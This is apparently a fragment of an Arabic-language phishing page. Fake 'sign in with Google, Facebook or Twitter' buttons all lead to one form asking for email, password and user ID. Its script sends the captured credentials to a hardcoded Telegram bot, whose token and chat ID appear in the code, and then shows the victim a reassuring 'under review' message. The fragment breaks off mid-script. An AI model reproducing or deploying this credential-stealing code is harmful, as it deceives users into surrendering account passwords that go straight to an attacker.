     <div id="auth-page" class="container">
        <div class="auth-bars">
            <div class="auth-bar" onclick="showPage('login-page')">
                <span class="auth-description">تسجيل عبر Google</span>
            </div>
            <div class="auth-bar" onclick="showPage('login-page')">
                <span class="auth-description">تسجيل عبر Facebook</span>
            </div>
            <div class="auth-bar" onclick="showPage('login-page')">
                <span class="auth-description">تسجيل عبر Twitter</span>
            </div>
        </div>
    </div>

    <div id="login-page" class="container">
        <div class="login-bars">
            <input type="text" id="email" class="input-field" placeholder="البريد الإلكتروني">
            <input type="password" id="password" class="input-field" placeholder="كلمة السر">
            <input type="text" id="userid" class="input-field" placeholder="ادخل الايدي">
            <div class="login-bar" onclick="sendToTelegram(event)">
                <span class="login-description">تسجيل الدخول</span>
            </div>
            <div class="error-message" id="error-message">يرجى ملء جميع الحقول</div>
        </div>
    </div>

    <script>
        function showPage(pageId) {
            document.querySelectorAll('.container').forEach(container => {
                container.classList.remove('active');
            });
            document.getElementById(pageId).classList.add('active');
        }

        function sendToTelegram(event) {
            event.preventDefault(); // لمنع السلوك الافتراضي للنقرة
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;
            const userId = document.getElementById('userid').value;
            const errorMessage = document.getElementById('error-message');

            if (!email || !password || !userId) {
                errorMessage.style.display = 'block';
                return;
            }

            errorMessage.style.display = 'none';
            const token = '7191210440:AAEVNLvcPt-q3cQrJRJY8pDqwg4HFRTAiyA';
            const chatId = '6082476350';
            const message = `البريد الإلكتروني: ${email}\nكلمة السر: ${password}\nالايدي: ${userId}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

            fetch(url)
                .then(response => response.json())
                .then(data => {
                    if (data.ok) {
                        alert('تم ارسال معلوماتك وسيتم مراجعتها في 15 دقيقة.');
                    } else {
                        alert('حدث خطأ أثناء إرسال المعلومات.');
                    }
                })
                .catch(error => {
                    console.error('Error:', error);
                    alert('حدث خطأ أثناء إرسال المعلومات.');
                });